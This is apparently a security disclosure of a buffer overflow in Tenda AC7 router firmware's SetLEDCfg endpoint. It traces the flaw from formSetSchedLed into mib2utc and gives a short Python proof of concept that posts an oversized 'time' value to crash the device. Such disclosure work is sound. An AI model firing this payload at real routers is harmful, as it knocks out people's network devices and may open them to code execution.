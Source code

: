 # Shenzhen Jixiang Tengda Technology Co., Ltd. AC7 has a Buffer Overflow vulnerability

**Vulnerability URL**: [http://192.168.198.76/goform/SetLEDCfg](http://192.168.198.76/goform/SetLEDCfg)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/2776](https://www.tenda.com.cn/material/show/2776)

## Vulnerability Analysis
The Tenda AC7_V15.03.06.44 firmware has a buffer overflow vulnerability in the `formsetschedled` function

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed1.png)

This function accepts `time` and `time_interval` from wp via a POST request. Then, at lines 36 and 37, it calls the `strtok` function twice to extract parts of `time_interval`. At line 40, it passes the extracted results to the `mib2utc` function without any checks. If the input parameter is too large, it will cause the buffer `ali_val` to overflow, which can lead to denial of service or remote code execution.  
Cross-referenced location: from the `formSetSchedLed` function, routed to `SetLEDCfg`, at line 51.

![Image 3](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed2.png)

Further cross-referenced.

![Image 4](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed3.png)

It can be determined that the vulnerability occurs at the page path `goform/SetLEDCfg`.

## payload
```python
from pwn import *
import requests
url = "http://192.168.198.76/goform/SetLEDCfg"
payload = 1000 * b"1" + b":30-06:30"
response = requests.post(url, data={"time" : payload})
```

# reproduce
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed4.png)

![Image 6](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed5.png)

![Image 7](https://github.com/zezhifu1/cve_report/blob/main/AC7/image/formSetSchedLed6.png)

